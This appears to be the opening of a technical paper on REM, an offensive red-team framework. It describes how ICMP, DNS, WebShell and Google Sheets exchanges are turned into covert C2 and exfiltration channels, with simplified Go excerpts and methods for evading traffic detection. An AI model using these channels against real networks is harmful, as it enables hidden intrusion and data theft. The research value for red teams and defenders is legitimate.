

# Your Network, My Transport Layer: An Offensive Perspective on the Network Protocol Stack

## 1. Introduction

### 1.1 Research Background and Problem Statement

In modern network attack and defense drills and Red Team operations, establishing stable, covert, and efficient Command and Control (C2) and data exfiltration channels is critical to the success of penetration testing. However, with the proliferation of Zero Trust architectures and the enhancement of network boundary defenses, attackers face an unprecedented "Communication Dilemma."

This dilemma does not stem from the lack of a single technology, but from fundamental limitations in the design paradigm of current offensive network tools. Through an analysis of existing mainstream tools (such as frp, nps, gost, dnscat2, neo-regeorg, etc.), we summarize the current problems into contradictions across three dimensions:

1. The Contradiction between "Hard-coded" Protocol Stacks and Flexibility

Existing tunnel tools typically adopt a "hard-coded" protocol stack design. For example, high-performance proxy tools are often bound to standard TCP/UDP protocols, while covert channel tools used in restricted environments (e.g., allowing only DNS or ICMP outbound) tend to be single-function and suffer from extremely low transmission efficiency. This "strong coupling between functionality and transport protocols" leads to severe tool fragmentation: attackers must switch between completely different toolchains for different scenarios. Implementing a reliable SOCKS5 proxy over a DNS channel, or running complex C2 traffic over a WebShell channel, usually requires extremely complex configurations or even secondary development. Existing tools cannot seamlessly migrate "high-level application layer capabilities" to "low-level transport channels."

2. The Contradiction between "Static" Signatures and Dynamic Defense

The communication characteristics (fingerprints) of traditional tools are usually determined by their code structure. Whether it is the handshake process, packet size distribution, or encryption method, these are often fixed at compile time. Although TLS encryption can hide content, Traffic Analysis and behavioral patterns remain clearly visible. This "static protocol structure" allows defenders to identify anomalies based solely on traffic behavior without decrypting the content. Attackers are forced into a cycle of "changing protocols/tools," but as long as the protocol stack structure is fixed, new fingerprints are quickly extracted.

3. The Contradiction between "Hierarchical Fragmentation" and Full-Stack Confrontation

In complex penetration paths (e.g., External Network -> Web Server -> Internal Database), attackers often need to cascade multiple tools: using a WebShell management tool to breach the first layer, a port forwarding tool for the second, and a proxy tool for lateral movement. This "simplistic stacking of technologies" not only introduces massive performance loss (Latency Cascade) but also leads to extremely high stability risks. Because these tools lack a unified communication protocol and state synchronization mechanism, the entire link becomes incredibly fragile.

**Key Insight:** We believe the root cause of the above problems is that traditional tools rely too heavily on the standard network stack provided by the operating system and restrict themselves to specific OSI layer models. True confrontation should not be limited to patching the application layer but should involve a complete reconstruction of the network protocol stack.

To address these issues, this paper proposes a new network architecture named **REM (Reconfigurable Evasion Module)**. Unlike traditional tools, REM does not presuppose "what the transport layer is," but redefines the network protocol stack from an offensive perspective:

- **Transport Agnostic:** Any medium capable of exchanging data (whether a TCP socket, a Google Sheets API cell, or an ICMP packet) is abstracted by REM as a unified "Physical Layer" and "upgraded" to a standard connection interface via a custom reliability protocol (ARQ).
    
- **Software-Defined Stack:** Functions such as encryption, compression, and multiplexing are modularized, allowing for dynamic orchestration at runtime. Attackers can build a unique protocol stack tailored to a specific environment, much like assembling building blocks.
    
- **Full-Stack Convergence:** Breaking the boundaries between proxies, tunnels, and C2, integrating them into a single binary.
    

### 1.2 Solution: REM Architecture Innovation

To overcome the challenges mentioned above, this paper proposes and implements the **Reconfigurable Evasion Module (REM)** architecture. The core innovation of REM lies in its three-layer decoupling and dynamic orchestration mechanism, aiming to build a highly flexible, covert, and high-performance infrastructure platform for network-side confrontation. REM achieves this goal through the following key designs:

- **Transport Layer Decoupling:** Abstracts any medium capable of data exchange into a standard connection interface, allowing ICMP, DNS, and even non-traditional communication media (such as Google Sheets API, WebShell) to serve as reliable transport layers for REM.
    
- **Encryption Layer Decoupling:** Designs encryption and obfuscation functions as independent, arbitrarily nestable modules. A "reverse read chain" ensures the correct order of encryption/decryption and supports dynamic configuration of encryption schemes, achieving dynamic changes in traffic characteristics.
    
- **Application Layer Decoupling:** Separates the processing logic of application protocols (SOCKS5, HTTP proxy, etc.) from the underlying transport, ensuring that the same application code can run on any transport layer supported by REM, significantly improving functional reusability.
    
- **Dynamic Orchestration Mechanism:** Introduces a Hook mechanism based on priority control, allowing runtime dynamic combination and orchestration of transport, encryption, and application layer capabilities. This enables the construction of customized confrontation links via simple configuration (e.g., "Random Layer 2-4 Encryption + Data Compression + TLS Outer Camouflage").
    

REM aims to be an infrastructure platform that integrates all network-side offensive technologies and supports infinite configuration, fundamentally solving the problems of technological silos and architectural ceilings.

### 1.3 Main Contributions

To address the numerous challenges faced by traditional network offensive tools, this paper proposes and implements the Reconfigurable Evasion Module (REM) architecture. By innovating fundamentally at the protocol stack level, REM aims to provide a highly flexible, covert, and high-performance infrastructure platform for network confrontation. The main contributions of this paper are summarized as follows:

- **Proposed and implemented a three-layer decoupled offensive protocol stack architecture:** By deeply decoupling the transport, encryption, and application layers, it breaks the strong coupling between technical capabilities and transport protocols in traditional tools. This allows any data exchange medium to serve as a reliable transport layer and supports any combination of encryption, obfuscation, and application protocol bearing.
    
- **Built a dynamically orchestratable traffic shaping and evasion mechanism:** Innovatively designed a Hook mechanism based on priority control to achieve runtime dynamic orchestration of functions such as transport, encryption, obfuscation, and compression, effectively countering DPI detection and statistical analysis.
    
- **Developed a zero-performance-loss proxy integration scheme:** By simulating the SOCKS5 proxy protocol in memory and optimizing authentication timing, it solves the performance bottlenecks of traditional proxies in concurrent scenarios, demonstrating near-direct-connection efficiency, especially in high-concurrency port scanning scenarios.
    
- **Expanded covert channel and C2 infrastructure capabilities:** Abstracted non-traditional media such as WebShell, Google Sheets API, and SMB named pipes into reliable duplex channels, and provided multi-level C2 framework integration schemes (including FFI embedding), significantly improving the covertness, flexibility, and performance of attack communications.
    
- **Implemented a protocol-boundary-free cascading proxy chain:** Through the generalized `proxyclient` library, it supports the chain combination of various proxy protocols (SOCKS, HTTP, SSH, etc.) and REM's own capabilities, constructing an elastic proxy link that spans any medium and adapts to complex network topologies.
    

Through these innovations, REM realizes the transformation from a "Fixed Protocol Stack" to a "Orchestratable Protocol Stack," fundamentally dismantling the basic assumptions relied upon by traditional detection and pushing attack and defense from a technical competition to a new dimension.

REM is not just a tool; it is an infrastructure platform for network confrontation. For attackers, it offers the ability to assemble infinite configuration possibilities using a unified architecture.

---

## 2. An Offensive Perspective on the Network Protocol Stack

Based on the theoretical foundation of reconstructing the OSI model, the REM architecture implements an OSI layer reconstruction oriented towards attack scenarios. This reconstruction takes the transport layer as the core foundation, building session, presentation, and application layer attack capabilities upwards, and ultimately serving various attack application scenarios through the transport layer. This breaks the hierarchical constraints of the traditional OSI model, providing significant improvements in flexibility and covertness for network-side confrontation operations.

_(We provide links to the corresponding code implementation in each chapter, but the code is not the most critical part; rather, it is the shift in design philosophy. We built REM using Golang, but this system can be built using Python, Rust, C, or any other language.)_

### Architecture Diagram and Overview




### 2.1 Transport Layer: Protocol-Agnostic Transport Abstraction

_Code:_ [`https://github.com/chainreactors/rem/tree/master/protocol/tunnel`](https://www.google.com/search?q=%5Bhttps://github.com/chainreactors/rem/tree/master/protocol/tunnel%5D\(https://github.com/chainreactors/rem/tree/master/protocol/tunnel\))

Traditional network tools fix transport protocols to standard options like TCP/UDP, limiting flexibility in attack scenarios. REM implements a protocol-agnostic transport layer through the `Tunnel` interface abstraction, allowing any protocol that can provide a `net.Conn` to be used as a transport layer.

In the REM architecture, the transport layer is no longer just the data transport layer in the traditional OSI model, but the cornerstone of the entire offensive infrastructure. **Any medium capable of data exchange can serve as an offensive transport layer.**

REM's transport layer is manifested as a `tunnel`. Each tunnel consists of a `dialer` and a `listener`. It is important to understand that `listener` and `dialer` only represent the server and client relationship on the transport layer. Once the tunnel is established, all REM nodes become equal peers, which is a significant difference from previous proxy tools.

#### 2.1.1 Tunnel Interface: Reliance on `net.Conn`

_Code:_ [`https://github.com/chainreactors/rem/blob/master/protocol/core/tunnel.go`](https://www.google.com/search?q=%5Bhttps://github.com/chainreactors/rem/blob/master/protocol/core/tunnel.go%5D\(https://github.com/chainreactors/rem/blob/master/protocol/core/tunnel.go\))

The only requirement of the `Tunnel` interface is the ability to provide `net.Conn`, which is the fundamental dependency of the entire REM transport layer. Regardless of the underlying protocol used, it must ultimately provide a standard `net.Conn` interface.

`net.Conn` is the core interface in the Golang standard library representing a network connection. It provides three basic methods: `Read`, `Write`, and `Close`, representing a bidirectional, stream-oriented network connection (similar to a TCP connection). Any type implementing these three methods can be used as a network connection.

**Two Protocol Scenarios:**

|**Scenario**|**Protocol Type**|**Characteristics**|**Can Provide Conn Directly?**|**Handling Method**|
|---|---|---|---|---|
|**Scenario A**|**Standard Protocols** (TCP, UDP, WebSocket, WireGuard)|Bidirectional, reliable, standard interface|✅ Yes|Used directly for Tunnel|
|**Scenario B**|**Inferior Protocols** (ICMP, DNS, HTTP API, WebShell)|Unidirectional/Unreliable/Non-standard|❌ No|Requires conversion via Section 2.2|

The `Tunnel` interface design is very concise, requiring only the implementation of a `Dialer` and `Listener`:


```go
type TunnelDialer interface {
    Dial(dst string) (net.Conn, error)  // Must return net.Conn
}

type TunnelListener interface {
    net.Listener  // Golang standard listener interface
    Listen(dst string) (net.Listener, error)  // Accept() returns net.Conn
}
```

`net.Conn` interface definition:

```go
// Golang standard library net.Conn interface
type Conn interface {
    Read(b []byte) (n int, err error)   // Read data
    Write(b []byte) (n int, err error)  // Write data
    Close() error                       // Close connection
    // ... plus auxiliary methods like address, timeout, etc.
}
```

The Tunnel does not concern itself with the implementation details of the underlying protocol, only whether it can ultimately provide a `net.Conn` interface. This achieves protocol agnosticism:

- TCP, UDP, Unix Socket provided by the Golang standard library can be used directly.
    
- ICMP, DNS, etc., converted via Section 2.2, can be used in the same way.
    
- Any custom protocol implementing the `net.Conn` interface can be integrated.
    

Golang's `net.Conn` interface is widely used in various network libraries (HTTP, TLS, Shadowsocks, etc.), allowing REM to maximize the use of the Golang ecosystem. For example, `http.Client` and `tls.Client` both accept `net.Conn` as the underlying transport. A channel based on the Telegram API, as long as it can be encapsulated as `net.Conn`, can be directly wrapped with encryption layers like TLS or Shadowsocks.

**`io.ReadWriteCloser` Interface:** The `net.Conn` interface actually inherits from the `io.ReadWriteCloser` interface (which only has `Read`/`Write`/`Close` methods). This simpler interface is used more broadly in Golang, including file operations, memory buffers, encryption streams, etc.

This approach is simple and clear, maximizing the use of Golang's existing infrastructure. Any transport protocol that implements the `net` package interface can be used as a REM transport layer with very minor modifications.

#### 2.1.2 Secondary Wrapping of Conn

Established connections often require additional processing (TLS encryption, data compression, statistical countermeasures). The mechanism for secondary wrapping of `Conn` references the design of `frp`, utilizing `BeforeHook`/`AfterHook` to inject processing logic before and after connection establishment, combined with a priority mechanism to achieve flexible connection extension.

Details on the Hook mechanism are introduced in Section 2.5.

In practice, REM provides a mechanism to support secondary processing operations on `Conn`, enabling the wrapping of complex functionalities supported by Golang on top of stable `Conn` objects.

Example 1: TLS Encryption

TLS encryption is the most common application, used to add encryption protection to any transport layer:

```go
// TLS Encryption Hook Implementation
func WithTLS() TunnelOption {
    return newFuncTunnelOption(func(do *TunnelService) {
        if do.listener != nil {
            // Server mode: Add TLS to listener
            tlsConfig, err := utils.NewServerTLSConfig("", "", "")
            if err != nil {
                return
            }
            do.afterHooks = append(do.afterHooks, core.AfterHook{
                Priority: TLSPriority,  // Highest priority, ensuring TLS is outermost
                ListenHook: func(ctx context.Context, listener net.Listener) (context.Context, net.Listener, error) {
                    // Wrap as TLS Listener
                    tlsListener := tls.NewListener(listener, tlsConfig)
                    return ctx, tlsListener, nil
                },
            })
        } else {
            // Client mode: Add TLS to Dialer
            tlsConfig, err := utils.NewClientTLSConfig("", "", "", "")
            if err != nil {
                return
            }
            do.afterHooks = append(do.afterHooks, core.AfterHook{
                Priority: TLSPriority,
                DialerHook: func(ctx context.Context, c net.Conn, addr string) (context.Context, net.Conn, error) {
                    // Wrap as TLS connection
                    tlsConn := tls.Client(c, tlsConfig)
                    // Perform TLS handshake
                    if err := tlsConn.Handshake(); err != nil {
                        c.Close()
                        return ctx, nil, err
                    }
                    return ctx, tlsConn, nil
                },
            })
        }
    })
}
```

**Value of TLS Hook:**

- **Encryption Protection:** All data is encrypted via TLS, preventing Man-in-the-Middle (MitM) eavesdropping.
- **Protocol Agnostic:** Can add a TLS layer to non-standard protocols like ICMP or DNS.
- **Certificate Verification:** Optional certificate verification, supporting self-signed certificates.
- **Application Scenario:** Wrapping a plaintext ICMP tunnel into an encrypted ICMP-over-TLS tunnel.
    

Example 2: Data Compression Hook

The compression Hook is used to reduce the amount of data transmitted, particularly suitable for bandwidth-constrained scenarios:

Go

```go
// Compression Hook Implementation
func WithCompression() TunnelOption {
    return newFuncTunnelOption(func(do *TunnelService) {
        if do.listener == nil {
            // Client mode
            do.afterHooks = append(do.afterHooks, core.AfterHook{
                Priority: WrapperPriority + 5,
                DialerHook: func(ctx context.Context, c net.Conn, addr string) (context.Context, net.Conn, error) {
                    // Wrap connection using Snappy compression algorithm
                    compressedConn := cio.WrapConn(c, wrapper.NewSnappyWrapper(c, c, nil))
                    return ctx, compressedConn, nil
                },
            })
        } else {
            // Server mode
            do.afterHooks = append(do.afterHooks, core.AfterHook{
                Priority: WrapperPriority - 5,
                AcceptHook: func(ctx context.Context, c net.Conn) (context.Context, net.Conn, error) {
                    // Server needs the same compression configuration
                    compressedConn := cio.WrapConn(c, wrapper.NewSnappyWrapper(c, c, nil))
                    return ctx, compressedConn, nil
                },
            })
        }
    })
}
```

The compression Hook utilizes the Snappy algorithm to achieve efficient data compression with almost no added latency, greatly enhancing data transmission capabilities in low-bandwidth, restricted channels.

_(In the OSI model, this is equivalent to tunnel abstraction and flow control mechanisms at the data link layer.)_

### 2.2 Below the Transport Layer: Converting Arbitrary Protocols to Standard Connections

The `Tunnel` in Section 2.1 requires `net.Conn`. Standard protocols (TCP/UDP/WebSocket) provide this directly, but ICMP/DNS/HTTP APIs and relative "inferior" protocols cannot. Furthermore, various "lolC2" (Living off the Land C2) channels, which are immensely valuable in attack scenarios (bypassing firewalls/NAT/Layer 7 filtering), are even more problematic. REM solves this via a two-layer conversion chain: **Simplex** encapsulates arbitrary data exchange into `PacketConn` and implements duplexing, while **ARQ** provides reliability guarantees for `PacketConn` and converts it to `net.Conn`, ultimately outputting a standard connection with the same status as TCP.

_Code:_ [`https://github.com/chainreactors/rem/tree/master/x/kcp`](https://www.google.com/search?q=%5Bhttps://github.com/chainreactors/rem/tree/master/x/kcp%5D\(https://github.com/chainreactors/rem/tree/master/x/kcp\)) & [`https://github.com/chainreactors/rem/tree/master/x/simplex`](https://www.google.com/search?q=%5Bhttps://github.com/chainreactors/rem/tree/master/x/simplex%5D\(https://github.com/chainreactors/rem/tree/master/x/simplex\))

**Differences between Protocol Scenarios:**

|**Scenario**|**Protocol Type**|**Characteristics**|**Can Provide Conn Directly?**|**Handling Method**|
|---|---|---|---|---|
|**Scenario A**|TCP/UDP/WebSocket|Bidirectional, reliable, standard interface|✅ Yes|Used directly for Tunnel|
|**Scenario B**|ICMP/DNS/HTTP API/WebShell|Unidirectional/Unreliable/Non-standard|❌ No|Requires Section 2.2 conversion|

Section 2.1 described how standard protocols in Scenario A act directly as the transport layer. However, in network confrontation scenarios, we frequently encounter the "inferior" protocols of Scenario B: ICMP, HTTP API, WebShell, DNS queries. These protocols have various defects: unreliability, unidirectional communication, low performance, and heavy restrictions, yet they are often the only available means of breach.

The goal is to convert the inferior protocols of Scenario B into standard `net.Conn` equal in status to Scenario A, delivering them for unified use by the Tunnel.

**Conversion Chain Design:**

```
Inferior Protocol (ICMP/DNS/HTTP API/WebShell)
  ↓
【Step 1: Simplex - Duplexing】
  • Encapsulate as unified PacketConn interface
  • Convert unidirectional communication to bidirectional via polling
  ↓
Bidirectional PacketConn (Bidirectional but Unreliable)
  ↓
【Step 2: ARQ - Reliability】
  • Provide retransmission, ordering, flow control guarantees
  • Convert to net.Conn interface
  ↓
net.Conn (Bidirectional and Reliable)
  ↓
【Delivered to Tunnel in Section 2.1】
```

#### 2.2.1 Simplex: Encapsulation and Duplexing from Arbitrary Data Exchange to PacketConn

Protocols like ICMP/DNS/HTTP are essentially unidirectional or asymmetric data exchanges. They need to be encapsulated into a unified `PacketConn` interface first, while converting unidirectional communication to bidirectional via a polling mechanism. This is the foundation of the entire conversion chain.

`net.PacketConn` is the interface in the Golang standard library representing a packet-oriented connection (similar to UDP). It uses `ReadFrom`/`WriteTo` methods for packet-level sending and receiving. Each read/write is a complete data packet, unlike the stream-based `net.Conn`.

**PacketConn Interface Definition:**


```go
// Golang standard library net.PacketConn interface
type PacketConn interface {
    ReadFrom(p []byte) (n int, addr net.Addr, err error)   // Read data packet
    WriteTo(p []byte, addr net.Addr) (n int, err error)    // Send data packet
    Close() error                                          // Close connection
    // ... plus auxiliary methods like address, timeout, etc.
}
```

**Difference from `net.Conn`:**

- **net.Conn:** Stream connection; data is transmitted as a byte stream with boundary concepts (e.g., TCP).
- **net.PacketConn:** Packet connection; each read/write is a complete packet, unordered and liable to be lost (e.g., UDP).
    

**Encapsulation Methods for Various Protocols:**

- **ICMP Packet:** Uses the sending/receiving of ping packets as `PacketConn` data exchange.
- **HTTP API Call:** Simulates `PacketConn` communication via sending HTTP requests and receiving responses.
- **WebShell Command Execution:** Simulates `PacketConn` communication via command input and echo output.
- **DNS Query:** Simulates `PacketConn` communication via DNS query requests and responses.
- **Social Media API:** Simulates `PacketConn` communication via data exchange in comments, posts, etc.
    

Simplex Interface Abstraction:

After providing the intermediate layer to encapsulate arbitrary data exchange protocols as PacketConn, we need to transform PacketConn into a streamed duplex channel via some conversion, rather than just single data packets (where the limit of a single packet would just be a C2 heartbeat channel).

We implemented the conversion from `PacketConn` to `io.ReadWriteCloser` by adding `Send`, `Receive`, and a `polling` mechanism. Just like the operation in the Tunnel layer in 2.1.1, we performed a similar operation in the Simplex layer, but with a different purpose: **Transforming PacketConn into `io.ReadWriteCloser` via polling.**


```go
// Simplex Interface: Unified Bidirectional Data Exchange Abstraction
type Simplex interface {
    Send(pkts *SimplexPackets, addr *SimplexAddr) (n int, err error)
    Receive() (pkts *SimplexPacket, addr *SimplexAddr, err error)
    Close() error
}
```

Three Polling Modes:

Simplex simulates duplex transmission via polling mechanisms, choosing different strategies based on channel characteristics:

**Mode 1: Client Polling (Most Common)**

- _Applicable Scenario:_ Channels where only the client can initiate requests (HTTP API, WebShell, Google Sheets).
- _Mechanism:_ The client periodically polls the server to check for new data.
- _Typical Applications:_
    - HTTP API: `GET /poll` to periodically retrieve pending commands.
    - Google Sheets: Client periodically reads Column A to get commands.
    - WebShell: Client periodically sends special requests to retrieve data cached by the server.

**Mode 2: Server Polling (Reverse Channel)**

- _Applicable Scenario:_ Certain special channels allow the server to actively read client data.
- _Mechanism:_ The server periodically checks a shared storage location to read data written by the client.
- _Typical Applications:_
    - File Sharing System: Server monitors a specific directory and reads files uploaded by the client.
    - Message Queue: Server subscribes to a specific topic and receives messages published by the client.
        

**Mode 3: Bidirectional Polling (Symmetric Channel)**

- _Applicable Scenario:_ Neither side can actively push; data exchange is only possible via shared storage.
- _Mechanism:_ Both client and server periodically poll shared storage to read data written by the other party.
- _TypicalApplications:_
    - Google Sheets Bidirectional: Client polls Column A (Command Input), Server polls Column B (Command Output).
    - Cloud Storage Channel: Both sides monitor specified files or object storage locations.
        

Through the `Simplex` interface, any data exchange medium (unidirectional, bidirectional, symmetric, asymmetric) is encapsulated into a unified `PacketConn` interface, providing standardized input for the next step of ARQ reliability conversion.

Case 1: ICMP Covert Channel Implementation Details

The core value of the ICMP protocol lies in bypassing firewall restrictions. Traditional firewalls usually allow ICMP Echo (ping) traffic to pass. REM utilizes this feature to hide attack data in the payload of ICMP packets:

```go
func (c *icmpConn) WriteTo(p []byte, addr net.Addr) (n int, err error) {
    // Construct ICMP Echo message, attack payload hidden in Data field
    m := &icmp.Message{
        Type: msgType,  // ICMP Echo Request/Reply
        Body: &icmp.Echo{
            ID: remoteID,    // Session ID
            Seq: int(seq),   // Sequence Number
            Data: data,      // Attack data hidden here
        },
    }

    // Serialize ICMP message
    wb, err := m.Marshal(nil)
    if err != nil {
        return 0, err
    }

    // Send raw ICMP packet
    return c.conn.WriteTo(wb, addr)
}
```

_Key Technical Points:_

- **Raw Socket:** Uses `golang.org/x/net/icmp` to construct ICMP packets directly, bypassing OS ICMP processing.
- **Sequence Management:** Uses the `Seq` field to identify different packets, supporting concurrent transmission.
- **Session Isolation:** Uses the `ID` field to distinguish different sessions, supporting multiple connections reusing the same ICMP channel.
    

Case 2: DNS Covert Channel Implementation Details

The covert value of the DNS protocol is even higher—DNS traffic is rarely blocked even in strict network environments. REM achieves bidirectional data transmission through DNS queries and responses:

```go
// Send data: Encode data into the domain name of the DNS query
func (c *dnsClient) Send(pkts *SimplexPackets, addr *SimplexAddr) (n int, err error) {
    // Base58 encoding to avoid characters not supported by DNS
    encoded := base58.Encode(data)

    // DNS label length limit is 63 bytes, segmentation required
    // Full domain name limit is 253 bytes
    labels := splitToLabels(encoded, 63)

    // Construct DNS query: data1.data2.data3.yourdomain.com
    domain := strings.Join(labels, ".") + "." + c.domain

    // Send DNS query
    msg := &dns.Msg{}
    msg.SetQuestion(domain, dns.TypeTXT)
    return c.client.Exchange(msg, c.server)
}

// Receive data: Extract data from the TXT record of the DNS response
func (c *dnsServer) Receive() (pkts *SimplexPacket, addr *SimplexAddr, err error) {
    // Parse DNS query
    msg := parseDNSQuery()

    // Extract data from domain name
    labels := strings.Split(msg.Question[0].Name, ".")
    encoded := strings.Join(labels[:len(labels)-2], "")

    // Base58 decode to get raw data
    data := base58.Decode(encoded)

    return &SimplexPacket{Data: data}, addr, nil
}
```

_DNS Channel Key Technologies:_

- **Base58 Encoding:** Avoids special characters unsupported by DNS and is shorter than Base64.
- **Label Segmentation:** DNS labels are limited to 63 bytes, full domains to 253 bytes; smart segmentation is required.
- **TXT Records:** Server responses use TXT records to transmit data (max 255 bytes per record).
- **Query Aggregation:** Multiple small packets can be merged into a single DNS query to improve efficiency.
    

Case 3: Google Sheets Covert Channel Implementation Details

Google Sheets is a widely used online collaboration tool. By using Google Sheets API cells as a data exchange medium, traffic is completely hidden within legitimate office traffic:


```go
// Google Sheets Cell Layout Design
const (
    sheetCommandCell = "A"  // Column A: Command Input
    sheetOutputCell  = "B"  // Column B: Command Output
    sheetTimestamp   = "C"  // Column C: Timestamp
    sheetTickerCell  = "E2" // Cell E2: Polling Interval Configuration
)

// Client Polling: Read command from Column A
func (g *GoogleClient) pullCommand(rowIndex int) (string, error) {
    // Read command from specified row in Column A
    readRange := fmt.Sprintf("%s!%s%d", sheetName, sheetCommandCell, rowIndex)

    url := fmt.Sprintf(
        "https://sheets.googleapis.com/v4/spreadsheets/%s/values/%s",
        sheetID, readRange,
    )

    resp, _ := g.client.Get(url)
    // Parse JSON response to get command text
    return command, nil
}

// Client Push: Write output to Columns B-C
func (g *GoogleClient) pushOutput(rowIndex int, output string) error {
    // Write to Columns B-C (Output and Timestamp)
    writeRange := fmt.Sprintf("%s!%s%d:%s%d", sheetName,
        sheetOutputCell, rowIndex, sheetTimestamp, rowIndex)

    url := fmt.Sprintf(
        "https://sheets.googleapis.com/v4/spreadsheets/%s/values/%s?valueInputOption=RAW",
        sheetID, writeRange,
    )

    // Construct write data
    valueRange := ValueRange{
        Range:  writeRange,
        Values: [][]interface{}{{output, getCurrentTime()}},
    }

    body, _ := json.Marshal(valueRange)
    req, _ := http.NewRequest("PUT", url, strings.NewReader(string(body)))
    g.client.Do(req)
    return nil
}
```

_Google Sheets Channel Workflow:_

```
Client (Implant)          Google Sheets          Server (C2 Server)
  |                          |                          |
  |                          |<--[1. Write A2: "whoami"]|
  |--[2. Poll Read A2]------>|                          |
  |<-[3. Return: "whoami"]---|                          |
  |                          |                          |
  |--[4. Write B2-C2]------->|                          |
  |   "admin" + timestamp    |                          |
  |                          |--[5. Read B2-C2]-------->|
  |                          |                          |
```

The Google Sheets channel uses Service Account OAuth2 authentication to access spreadsheets. It implements bidirectional communication via column separation (Column A for command input, Columns B-C for output and timestamps) and uses the `batchGet` API to read multiple cell ranges at once to reduce request count. Cell E2 stores dynamic polling interval configuration, allowing remote adjustment of communication frequency. All operations strictly use the standard Sheets API, making the traffic characteristics indistinguishable from normal office operations.

Regardless of the underlying protocol, they are all encapsulated into the same `PacketConn` interface and achieve bidirectional communication capability via polling mechanisms, providing standardized input for the upper-layer ARQ protocol.

Simplex Interface and Duplexing Mechanism:

Many protocols (like HTTP API, WebShell, Google Sheets) are inherently unidirectional—only the client can initiate requests; the server cannot actively push data. The Simplex interface converts these unidirectional channels into bidirectional communication via unified Send/Receive abstraction and flexible polling mechanisms.

#### 2.2.2 ARQ: Reliability Guarantee and Interface Conversion from PacketConn to Conn

The `PacketConn` output by Simplex is bidirectional but unreliable. It requires an ARQ (Automatic Repeat reQuest) protocol to provide retransmission, ordering guarantees, and flow control mechanisms, finally converting it to a `net.Conn` interface for delivery to the Tunnel.

Traditional ARQ protocols (like KCP) are strongly coupled with specific transport protocols, limiting application scenarios. REM implements the decoupling of ARQ protocols via `PacketConn` abstraction, allowing any ARQ implementation to work on any `PacketConn`.

**Decoupled Design of ARQ and PacketConn:**

```go
// Decoupling ARQ Protocol from PacketConn
func NewARQSession(pc PacketConn) net.Conn {
    // The ARQ protocol no longer cares if the underlying layer is UDP, ICMP, or DNS
    // It only sends/receives packets via the PacketConn interface
    // Finally outputs a standard net.Conn interface
}
```

- Any protocol implementing the `PacketConn` interface (UDP, ICMP, DNS, HTTP, etc.) can serve as the transport layer for ARQ.
- The ARQ protocol can evolve independently, unrestricted by the underlying transport protocol.
- Achieves complete decoupling of the reliable transport protocol from the underlying transport medium.

Selectable Multi-ARQ Protocols:

REM supports arbitrary ARQ protocol implementations, selectable based on scenario requirements. We provide two default ARQ protocols:

- **KCP Protocol:** Mature ARQ implementation providing fast retransmission and congestion control, suitable for low-latency scenarios.
- **Custom ARQ:** Lightweight implementation supporting NACK mechanisms and adaptive parameter adjustment, suitable for low-rate restricted environments.
    

By decoupling the association between ARQ and `PacketConn`, users can choose the most suitable ARQ protocol based on network environments (latency, packet loss rate, bandwidth), or even implement custom ARQ algorithms.

Further Control of Statistical Characteristics:

The ARQ layer provides additional capabilities for statistical countermeasures. By adjusting ARQ parameters (retransmission interval, window size, timeout duration, etc.), one can alter traffic timing characteristics and packet size distribution, making it harder for statistical analysis to identify. For instance, randomizing retransmission delays and dynamically adjusting window sizes can break the predictable patterns of traditional ARQ protocols.

#### 2.2.3 Final Output: `net.Conn` with Equal Status to TCP

After Simplex duplexing and ARQ reliability guarantees, the originally inferior protocols are finally output as standard `net.Conn` interfaces, gaining the exact same status and capabilities as TCP/UDP at the Tunnel level.

**Capabilities of Standard `net.Conn`:**


```go
type Conn interface {
    Read(b []byte) (n int, err error)
    Write(b []byte) (n int, err error)
    Close() error
}
```

**Complete Conversion Link:**

Plaintext

```
Inferior Protocol (ICMP/HTTP/WebShell/DNS/lolc2)
    ↓ [Simplex: Encapsulate as PacketConn + Duplexing]
Bidirectional PacketConn (Stateless Packet Interface)
    ↓ [ARQ: Reliability Guarantee + Interface Conversion]
Standard net.Conn
    ↓ [Delivered to Tunnel in Section 2.1]
Equal Status to TCP/UDP
```

Through this conversion mechanism, REM achieves true protocol equality:

- **Completely Isolated:** Establish a reliable connection via WebShell, supporting proxying, tunneling, and forwarding.
    
- **HTTP Only:** Establish a full TCP connection via HTTP API, supporting any upper-layer protocol.
    
- **DNS Only:** Establish a covert tunnel via DNS queries, supporting data transmission.
    
- **Allowlist IP/Domain Only:** Establish a reliable connection via `lolc2`.
    
- ...and so on.
    

_(In the OSI model, this involves raw packet construction at the physical layer, data frame encapsulation at the data link layer, and reliability guarantee mechanisms at the transport layer.)_

We have achieved a transport layer capable of full-duplex communication using arbitrary data exchange through the designs in 2.1 and 2.2. But does it end here?

### 2.3 Above the Transport Layer: Inverted Session and Presentation Layers

Traditional OSI models multiplex first and then encrypt, which exposes internal communication structural characteristics. REM implements complete control over data through an **Inverted Architecture (Encrypt First, Then Multiplex)**. Data is first encrypted and obfuscated by the Wrapper above the transport layer, and then multiplexed by the Mux.

In the traditional OSI model, the session layer and presentation layer are independent functional layers. The REM architecture fuses these layers to create a more powerful combination of attack capabilities.

#### 2.3.1 Inverted Architecture: Achieving Total Data Control

Multiplexing before encryption allows detection devices to see the structural features of internal multiplexing. Inverting to "Encrypt then Multiplex" ensures that detection devices can only see a single encrypted data stream.

The core goal of the REM inverted architecture is total control over data. By placing the session layer above the presentation layer, data must undergo encryption and obfuscation processing before reaching the application layer, followed by connection multiplexing management.

**Total Control of Data Flow**

**REM Inverted Architecture:**

```
Application Layer
      ↓
Transport Layer
      ↓
Presentation Layer (Wrapper Encryption/Obfuscation)
      ↓
Session Layer (Mux Multiplexing)
```

**Traditional OSI Architecture:**


```
Transport Layer
      ↓
Application Layer
      ↓
Presentation Layer
      ↓
Session Layer
```

The core value of this inverted design lies in:

- **Encrypt First, Multiplex Later:** Data is first subjected to complete encryption and obfuscation above the transport layer, and then multiplexed.
